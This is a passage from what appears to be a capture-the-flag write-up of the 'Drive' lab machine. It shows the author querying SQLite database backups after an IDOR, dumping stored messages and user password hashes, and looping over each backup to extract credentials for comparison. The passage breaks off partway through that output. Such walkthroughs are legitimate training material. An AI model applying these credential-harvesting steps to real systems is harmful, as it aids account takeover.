 
A bunch of the tables are empty. `myApp_file` has the content from the files I
was able to read with the IDOR:

    
    
    sqlite> select * from myApp_file;
    98|documents/crisDisel/Hi|b'hi team\nhave a great day.\nwe are testing the new edit functionality!\nit seems to work great!\n'|2022-12-24 16:52:22.971837|24||Hi!
    99|documents/jamesMason/security_announce|b'hi team\nplease we have to stop using the document platform for the chat\n+I have fixed the security issues in the middleware\nthanks! :)\n'|2022-12-24 16:55:56.501240|21||security_announce
    101|documents/jamesMason/database_backup_plan|hi team!
    me and my friend(Cris) created a new backup scheduled plan for the database
    the database will be automatically highly compressed and copied to /var/www/backups/ by a small bash script every day at 12:00 AM
    *Note: the backup directory may change in the future!
    *Note2: the backup would be protected with strong password! don't even think to crack it guys! :)|2022-12-24 22:49:49.515472|21|21|database_backup_plan!
    

Most interesting is the `accounts_customuser` table, which has hashes for
users that match up nicely with some local accounts on Drive:

    
    
    sqlite> select * from accounts_customuser;
    21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
    22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
    23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
    24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
    30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
    

There are tables with group names and how they tie to files, but nothing too
interesting.

#### Differences

One place that I see differences is the `myApp_file` table, as the older
backups don’t have as many messages. Still, there’s nothing I haven’t seen
before.

Another place to look for differences is in the `accounts_customuser` table.
I’ll loop over each and dump the hashes:

    
    
    martin@drive:/dev/shm$ ls | while read db; do echo "$db"; sqlite3 "$db" 'select username,password from accounts_customuser;'; done
    db.sqlite3
    jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
    crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
    admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
    dec.sqlite3
    admin|pbkdf2_sha256$390000$ZjZj164ssfwWg7UcR8q4kZ$KKbWkEQCpLzYd82QUBq65aA9j3+IkHI6KK9Ue8nZeFU=
    jamesMason|pbkdf2_sha256$390000$npEvp7CFtZzEEVp9lqDJOO$So15//tmwvM9lEtQshaDv+mFMESNQKIKJ8vj/dP4WIo=
    martinCruz|pbkdf2_sha256$390000$GRpDkOskh4irD53lwQmfAY$klDWUZ9G6k4KK4VJUdXqlHrSaWlRLOqxEvipIpI5NDM=
    tomHands|pbkdf2_sha256$390000$wWT8yUbQnRlMVJwMAVHJjW$B98WdQOfutEZ8lHUcGeo3nR326QCQjwZ9lKhfk9gtro=
    crisDisel|pbkdf2_sha256$390000$TBrOKpDIumk7FP0m0FosWa$t2wHR09YbXbB0pKzIVIn9Y3jlI3pzH0/jjXK0RDcP6U=
    nov.sqlite3
    jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
    martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
    tomHands|sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a